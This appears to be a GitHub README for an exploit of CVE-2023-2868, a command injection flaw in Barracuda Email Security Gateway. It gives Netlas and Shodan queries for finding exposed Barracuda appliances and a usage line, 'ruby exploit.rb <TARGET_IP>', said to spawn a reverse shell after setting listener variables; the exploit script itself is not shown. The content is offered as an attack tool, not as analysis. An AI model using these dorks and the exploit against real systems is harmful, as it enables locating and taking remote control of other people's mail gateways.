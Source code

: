 # CVE-2023-2868
Barracuda ESG Command Injection 
- NetLas Dork:
```
http.headers.server:"BarracudaHTTP"
```
[Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")


- Shodan dorks:
```
Barracuda port:25
```
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
